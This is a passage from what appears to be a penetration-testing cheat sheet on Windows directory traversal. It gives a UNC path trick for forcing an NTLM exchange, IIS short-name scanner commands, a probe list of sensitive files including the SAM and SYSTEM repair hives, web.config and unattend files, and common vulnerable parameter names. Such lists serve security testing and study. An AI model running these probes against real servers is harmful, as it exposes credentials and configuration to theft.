```powershell
\\localhost\c$\windows\win.ini
```

Also the machine might also authenticate on this remote share, thus sending an NTLM exchange.

### IIS Short Name

The IIS Short Name vulnerability exploits a quirk in Microsoft's Internet Information Services (IIS) web server that allows attackers to determine the existence of files or directories with names longer than the 8.3 format (also known as short file names) on a web server.

* [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

    ```ps1
    java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
    java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
    ```

* [bitquark/shortscan](https://github.com/bitquark/shortscan)

    ```ps1
    shortscan http://example.org/
    ```
### Windows Files

The files `license.rtf` and `win.ini` are consistently present on modern Windows systems, making them a reliable target for testing path traversal vulnerabilities. While their content isn't particularly sensitive or interesting, they serves well as a proof of concept.

```powershell
C:\Windows\win.ini
C:\windows\system32\license.rtf
```

A list of files / paths to probe when arbitrary files can be read on a Microsoft Windows operating system: [soffensive/windowsblindread](https://github.com/soffensive/windowsblindread)

```powershell
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```
## 📁 Directory Traversal — Test Cases & Payloads
```text
file, filename, filepath, path, dir, directory, folder, page, doc, document, download, include, resource, view, template, theme, skin, pdf, img, image, icon, style, css, js, script, asset, config, config_file, config_path, log, log_file, log_path, backup, restore, target, location, lang, language, locale, base, basepath, root, home, url, uri, endpoint, slug
```